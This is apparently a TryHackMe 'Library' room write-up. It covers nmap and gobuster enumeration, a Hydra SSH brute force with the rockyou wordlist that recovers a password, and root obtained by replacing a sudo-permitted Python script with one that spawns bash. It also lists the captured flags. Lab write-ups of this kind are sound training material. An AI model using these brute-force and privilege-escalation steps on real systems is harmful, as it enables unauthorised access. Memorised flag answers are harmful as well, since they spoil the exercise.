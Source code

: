 ## Library - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtlibrary)

**IP: 10.10.99.178**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster, Hydra

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap and Gobuster.

  ```
  nmap -Pn -sC -sV -T5 -p- 10.10.99.178

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
  |   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
  |_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  | http-robots.txt: 1 disallowed entry 
  |_/
  |_http-title: Welcome to  Blog - Library Machine
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
  ```
  gobuster dir -u http://10.10.99.178/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /images               (Status: 301) [Size: 313] [--> http://10.10.99.178/images/]
  /server-status        (Status: 403) [Size: 300]
  Progress: 220560 / 220561 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When I visited a web page, I tried to post a comment but it was not reflected. Users that commented on the page: meliodas, root, www-data and Anonymous.
  
- I checked `robots.txt` it gave me `rockyou` which means I can most likely use it to obtain credentials.

  ```
  User-agent: rockyou 
  Disallow: /
  ```

---

## ⚙️ Gaining Access

- I tried to gain access by uploading shells to `/images` but it wass unsuccessfull, then I switched to brute forcing since I have 4 usernames and port 22 open. I started with `meliodas` first.

  ```
  hydra -l meliodas -P /rockyou.txt -t 16 10.10.99.178 ssh
  [22][ssh] host: 10.10.99.178   login: meliodas   password: iloveyou1
  1 of 1 target successfully completed, 1 valid password found

  ```
  
- Nice, credentials obtained! Log in as meliodas with ssh and start looking for flags.

---

## 🧍 User Privilege Escalation

- First flag is there as soon as you log in.

  ```
  meliodas@ubuntu:~$ whoami
  meliodas
  
  meliodas@ubuntu:~$ ls
  bak.py  user.txt
  
  meliodas@ubuntu:~$ cat user.txt 
  6d488cbb3f111d135722c33cb635f4ec
  ```
  
- Moving to privilege escalation.

---

## 👑 Root Privilege Escalation

- With `sudo -l` I found that I have sudo permission with using Python, this is the way to root for sure, no need for further enumeration.

  ```
  meliodas@ubuntu:~$ sudo -l
  Matching Defaults entries for meliodas on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User meliodas may run the following commands on ubuntu:
      (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
  ```
  
- OK, so here I tried few different things to manipulate `os module` in `bak.py` script but couldn't make it work. When I tried to edit the script I got denied, so then I though "What if I delete this script and create a new one?". Well, that actually worked!

  ```rm -f bak.py```
  
- Now, since original script is deleted, create a new one named `bak.py` and run it with sudo and full paths, othervise it won't work.

  ```
  meliodas@ubuntu:~$ nano bak.py
  meliodas@ubuntu:~$ cat bak.py 
  import os
  os.system("/bin/bash")
  
  meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py 
  root@ubuntu:~# whoami
  root
  ```

- That's it, root obtained, now just read the flag. Keep in mind, there's few different lines of code for this 'shell' that will give you root access, try experimenting a bit!

  ```
  root@ubuntu:~# cat /root/root.txt
  e8c8c6c256c35515d1d344ee0488c617
  ```

---

## 🏁 Flags

- **User Flag**: `6d488cbb3f111d135722c33cb635f4ec`
- **Root Flag**: `e8c8c6c256c35515d1d344ee0488c617`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding way to root with Python.`

- What did I learn?
  `New privilege escalation.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
